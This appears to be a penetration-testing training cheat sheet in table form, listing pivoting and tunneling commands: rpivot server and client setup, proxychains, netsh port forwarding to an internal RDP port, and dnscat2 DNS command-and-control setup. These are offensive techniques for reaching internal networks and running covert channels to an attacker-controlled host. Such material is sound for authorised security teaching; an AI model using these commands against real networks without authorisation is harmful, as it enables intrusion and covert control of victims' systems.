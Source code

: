 | `sudo apt-get install python2.7`                                                                                                                                                                                   | Uses apt-get to install python2.7.                                                                                                                                                                                                                                      |
| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`                                                                                                                                     | Used to run the rpivot server (`server.py`) on proxy port `9050`, server port `9999` and listening on any IP address (`0.0.0.0`).                                                                                                                                       |
| `scp -r rpivot ubuntu@<IPaddressOfTarget>`                                                                                                                                                                         | Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target.                                                                                                                                                                |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`                                                                                                                                                   | Used to run the rpivot client (`client.py`) to connect to the specified rpivot server on the appropriate port.                                                                                                                                                          |
| `proxychains firefox-esr <IPaddressofTargetWebServer>:80`                                                                                                                                                          | Opens firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server.                                                                                                                                          |
| `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>` | Use to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication.                                                                                                                                                              |
| `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25`                                                                                 | Windows-based command that uses `netsh.exe` to configure a portproxy rule called `v4tov4` that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389.                                                                               |
| `netsh.exe interface portproxy show v4tov4`                                                                                                                                                                        | Windows-based command used to view the configurations of a portproxy rule called v4tov4.                                                                                                                                                                                |
| `git clone https://github.com/iagox86/dnscat2.git`                                                                                                                                                                 | Clones the `dnscat2` project GitHub repository.                                                                                                                                                                                                                         |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`                                                                                                                        | Used to start the dnscat2.rb server running on the specified IP address, port (`53`) & using the domain `inlanefreight.local` with the no-cache option enabled.                                                                                                         |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git`                                                                                                                                                  | Clones the dnscat2-powershell project Github repository.                                                                                                                                                                                                                |
| `Import-Module dnscat2.ps1`                                                                                                                                                                                        | PowerShell command used to import the dnscat2.ps1 tool.                                                                                                                                                                                                                 |